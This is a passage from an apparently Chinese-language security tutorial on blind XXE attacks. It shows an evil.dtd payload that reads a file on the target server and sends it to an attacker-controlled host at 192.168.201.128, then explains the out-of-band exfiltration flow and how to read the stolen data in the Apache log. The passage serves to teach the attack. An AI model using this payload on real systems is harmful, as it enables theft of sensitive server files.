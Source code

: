 远程服务器部署 evil.dtd 内容为：

```plain
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.201.128/?content=%file;'>"> %payload;
```

%要进行实体编码`&#x25`  
进行 XXE 攻击后，服务器会把文件内容发送到攻击者服务器 (这里是 ubantu 的 apache 日志记录)  
[![](assets/1698897471-2644a0fcd666d6efc490d68eeddd106d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151838-f5f6d848-14d3-1.jpg)  
ubantu 查看 apache 日志记录命令：

```plain
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到 Base64 编码后的文件内容  
[![](assets/1698897471-cb0392191039272755b2374e9b124164.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151949-20888bc4-14d4-1.jpg)  
*无回显攻击流程：*

-   先调用`%dtd`，请求远程服务器 (攻击服务器) 上的`evil.dtd`。
-   再调用 `evil.dtd`中的 `%file`。`%file` 获取受攻击的服务器上面的敏感文件，然后将 `%file` 的返回结果传到`%send` 。
-   然后调用 `%send;` 把读取到的数据发送到远程服务器上。

这样就实现了外带数据的效果，解决 XXE 无回显的问题。

**使用并分析恶意脚本**  
xxe2.php
